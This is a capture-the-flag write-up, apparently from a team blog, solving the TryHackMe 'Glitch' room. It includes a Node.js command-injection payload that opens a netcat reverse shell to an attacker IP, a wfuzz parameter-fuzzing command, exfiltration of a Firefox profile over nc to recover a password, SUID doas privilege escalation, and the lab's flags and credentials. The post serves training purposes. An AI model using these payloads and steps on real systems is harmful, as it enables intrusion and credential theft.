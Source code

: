 ```yaml
---
title: Glitch
layout: post
author: Bit Criminals Team
date: 2021-05-14 17:02:00 +0530
type: Pentesting
difficulty: Easy
prompt: https://tryhackme.com/room/glitch
---
```


We start with out routine Nmap scan which reveals that port 80 (running on Node js) is the only port open out of all 65535 ports.

![](/images/MaskdMafia/glitch3.png)

So we add the ip to our /etc/hosts before proceeding to visit it in our browser and be greeted with this:

![](/images/MaskdMafia/glitch1.png)

The question gives an idea about some kind of access token.
Checking the source code of the webpage, we find this interesting function getAccess() which seems to be fetching something.

![](/images/MaskdMafia/glitch2.png)

So we execute the function in the console and get back a string which seems to be base64 encoded.

![](/images/MaskdMafia/glitch4.png)

So we decode it and get the Access token.

![](/images/MaskdMafia/glitch5.png)

Checking the Network Tab of the webpage shows us that the value of the token has not been entered yet, so we enter the value of our Access token and reload the page in the browser to get a different-looking webpage.

![](/images/MaskdMafia/glitch6.png)

Looking at the source code of the new webpage, we see a section /api/items so we try to access it in our browser.

![](/images/MaskdMafia/glitch7.png)

So we fire up BurpSuite to see what is happening when we try to access the page .
We see that while trying to send a post request to /api/items we get this message:

```py
{"message":"there_is_a_glitch_in_the_matrix"}
```

Since,we are able to send POST requests.Let us search which parameters are available with wfuzz.

```shell
wfuzz -XPOST -u http://ip/api/items?FUZZ=id -w /usr/share/seclists/Discovery/Web-Content/api/objects.txt --hh 45
```

![](/images/glitch.png)

Thus, we see that Cmd is available.

Now,we fire up burp and send a random request with cmd and it's working.

![](/images/glitch2.png)

Now,I started searching for the payload and I found one

```
require("child_process").exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.4.53 4444 >/tmp/f")
```

I changed the ip,encoded in URl form and POST this one.
And,it worked.

![](/images/glitch4.png)

Listening to the PORT we have the shell.

we stabilise our shell then with,

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

Looking in the directories we get our user flag.

![](/images/glitch5.png)

Here's our user flag:**THM{i_don't_know_why}**

After some searching we found a .firefox folder inside /home/user/ directory

We can take advantage of this folder and extract next user's password...

Firstly we created a tar file of the .firefox folder and sent it to our terminal through nc

![](/images/D4rkDemian/glitch2.png)

![](/images/D4rkDemian/glitch3.png)

After running following command we got the v0id user's password 

```shell
firefox --profile b5w4643p.default-release --allow-downgrade
```

![](/images/D4rkDemian/glitch.png)

```
v0id:love_the_void
```

After logging as v0id I searched for some leaks through which we can become root and I found that as **doas**

i ran 
```shell
find / -type f -perm /40000 2>/dev/null
```
and doas was a sus!

![](/images/D4rkDemian/glitch4.png)

After reading about it in [doas](https://github.com/slicer69/doas) i used the following command and got the root

```shell
doas bash -p
```
![](/images/D4rkDemian/glitch5.png)

And finally got the root flag!!

**THM{diamonds_break_our_aching_minds}**


